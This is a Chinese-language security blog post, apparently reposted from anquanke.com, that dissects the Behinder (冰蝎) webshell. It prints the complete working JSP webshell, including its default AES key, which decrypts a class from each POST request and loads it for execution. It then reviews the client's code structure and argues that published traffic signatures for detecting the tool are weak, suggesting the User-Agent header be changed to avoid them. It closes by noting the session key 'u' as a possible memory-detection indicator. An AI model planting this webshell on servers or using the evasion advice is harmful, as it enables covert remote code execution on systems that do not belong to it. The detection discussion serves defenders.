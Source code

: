 > 原文链接: https://www.anquanke.com//post/id/252549 


# 前尘——流量中的无法捕捉的蝎子


                                阅读量   
                                **23756**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



[![](https://p4.ssl.qhimg.com/t0151cd053c45b29dc8.jpg)](https://p4.ssl.qhimg.com/t0151cd053c45b29dc8.jpg)



## 前言

一天一个朋友跑过来，问我冰蝎又没有魔改的版本。说自己冰蝎执行命令被拦截了，于是我开始借此机会分析冰蝎源码，寻找其特征。



## JSP一句话木马分析

冰蝎两端二开，首先分析其JSP<br>`&lt;%[@page](https://github.com/page) import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%&gt;&lt;%!class U extends ClassLoader`{`U(ClassLoader c)`{`super(c);`}`public Class g(byte []b)`{`return super.defineClass(b,0,b.length);`}``}`%&gt;&lt;%if (request.getMethod().equals("POST"))`{`String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);`}`%&gt;`<br>
为了方便分析将其带入idea中进行格式化

[![](https://p4.ssl.qhimg.com/t01d74bee2e16ac49b7.png)](https://p4.ssl.qhimg.com/t01d74bee2e16ac49b7.png)

一个类名为U的类继承ClassLoader,这里我只给大家解释一点,避免对classloader解释太多让大家不易理解。classloader就是将class文件加载到JVM中。读者理解这一点就行……

[![](https://p5.ssl.qhimg.com/t010b170ebd208619e2.png)](https://p5.ssl.qhimg.com/t010b170ebd208619e2.png)

获取request对象，然后通过request对象获取请求方法。如果是POST方法则向下处理……

[![](https://p0.ssl.qhimg.com/t0130de3d50288d98d8.png)](https://p0.ssl.qhimg.com/t0130de3d50288d98d8.png)

定义一个密钥，因为其采用aes加密,然后将这个key存入session对象，key为u，value为密钥。

[![](https://p4.ssl.qhimg.com/t015714092eb6ac8ba6.png)](https://p4.ssl.qhimg.com/t015714092eb6ac8ba6.png)

通过Cipher对象实现了AES加密

[![](https://p0.ssl.qhimg.com/t01d2951b57aa991b3c.png)](https://p0.ssl.qhimg.com/t01d2951b57aa991b3c.png)

然后初始化这个加密算法<br>
init(int opmode, Certificate certificate)<br>
init这个api是使用给定证书中的公钥初始化此密码。然后此处解决一个疑问，此处的aes加密还是解密是我困惑的一个点，后来差文档发现第一个参数opmode支持两种模式ENCRYPT_MODE ， DECRYPT_MODE ， WRAP_MODE或 UNWRAP_MODE，然后他传了一个int类型的2即为解密。<br>
然后将上文声明的key当作密钥传入。自此aes方法声明结束。

[![](https://p4.ssl.qhimg.com/t01087e626d4c2cf419.png)](https://p4.ssl.qhimg.com/t01087e626d4c2cf419.png)

然后实例化当前类，对于这种链式操作很大程度上减少了代码量，但是对于分析者不怎么友好。这种写法需要从内向外分析。<br>
1.调用request对象的getReader然后逐行读取请求包里的内容。<br>
2.调用sun包下misc中Base64Decoder方法对其进行base64解密<br>
3.调用上文中实例的aes算法对象的dofinal对其进行aes解密<br>
4.将内容传给声明的方法g中，内部调用defineClass方法动态解析内容成class内容

[![](https://p5.ssl.qhimg.com/t012e44dbd5c2843e18.png)](https://p5.ssl.qhimg.com/t012e44dbd5c2843e18.png)

这里主要是defineClass方法给出api，可以搜索这个api文档深入理解。



## 聊聊这样实现的优势

我不得不承认的冰蝎作者对webshell管理端这样的先河开辟者的佩服。原因如下：对于一个webshell的控制，其最主要的功能在于命令执行也就是Runtime类。客户端向服务端发送命令，服务端获取内容然后带入exec当中。但是冰蝎作者没有这么做，他选择类加载的方式，客户端发送给服务端类文件由服务端使用classloader加载到jvm。这样做最大的好处就是可扩展性，可以做的事情不在局限于runtime类，让可以做的事情无限放大。从0到1是个大问题……



## 客户端

[![](https://p4.ssl.qhimg.com/t01d341897804efd565.png)](https://p4.ssl.qhimg.com/t01d341897804efd565.png)

接下来看看客户端目录结构，让我庆幸的是。当我再次看到这样的目录结构让我留下的阔别已久的泪水，那些老架构项目的架构烂的一塌糊涂。这样的架构，分层思想给我接下来的分析减少了很大压力，直接pom下载依赖。<br>
冰蝎使用了sqllite数据库

[![](https://p4.ssl.qhimg.com/t01a95adb314a47c990.png)](https://p4.ssl.qhimg.com/t01a95adb314a47c990.png)

[![](https://p0.ssl.qhimg.com/t018791da7c13e07c0c.png)](https://p0.ssl.qhimg.com/t018791da7c13e07c0c.png)

[![](https://p2.ssl.qhimg.com/t01ee9d688858dbfbf0.png)](https://p2.ssl.qhimg.com/t01ee9d688858dbfbf0.png)

核心表就两张，hosts和shell表。多对多的关系，保存shell的记录。<br>
1.dao层负责查询数据<br>
2.entity层负责数据库和应用程序的实体映射<br>
3.ui负责界面<br>
4.util工具包<br>
5.payload是客户端的功能实现

[![](https://p3.ssl.qhimg.com/t0119dd8830bfa1ed56.png)](https://p3.ssl.qhimg.com/t0119dd8830bfa1ed56.png)

功能实现自己看吧，无非创建文件删除文件这些没啥说的。

## 聊聊特征

[https://www.freebuf.com/sectool/247009.html](https://www.freebuf.com/sectool/247009.html) 我一句这篇文章来做一个反驳吧<br>
1.content-type Content-Type: application/octet-stream属于强特征。这种属于流传输，而用到流传输的地方多了去了，不能作为特征。<br>
2.user-Agent 。我看了源码中

[![](https://p3.ssl.qhimg.com/t019f3fed1dbf6830e5.png)](https://p3.ssl.qhimg.com/t019f3fed1dbf6830e5.png)

冰蝎子中默认定义的agent头，查阅后并未发现敏感特殊字样，都为正常ua头。如果实在担心可以修改默认的ua头。

Accept&amp;Cache-Control，文章中说如果不自行定义则会使用默认的<br>
Accept: text/html, image/gif, image/jpeg, **; q=.2, **/*; q=.2<br>
Cache-Control: no-cache<br>
Pragma: no-cache<br>
User-Agent: java/1.8<br>
这很正常，大多数请求都不会自己定义。<br>
综上所述，以上几种特征都属于强行找特征。如果有必要，建议只修改ua头即可。



## 总结

看完整个代码之后的感觉就是，冰蝎作者的开发功底可以，其中用到多种设计模式，方法的抽离性比较强。每个方法都放到了该放的位置，但是数据库设计的个人认为有很多冗余字段存在于host和shell表中。<br>
最后提一嘴，

[![](https://p5.ssl.qhimg.com/t016b31c0c1163b365e.png)](https://p5.ssl.qhimg.com/t016b31c0c1163b365e.png)

除流量特征以外的内存特征session 中的key为u算不算一个呀，这个作为内存马检测算不算很有力。
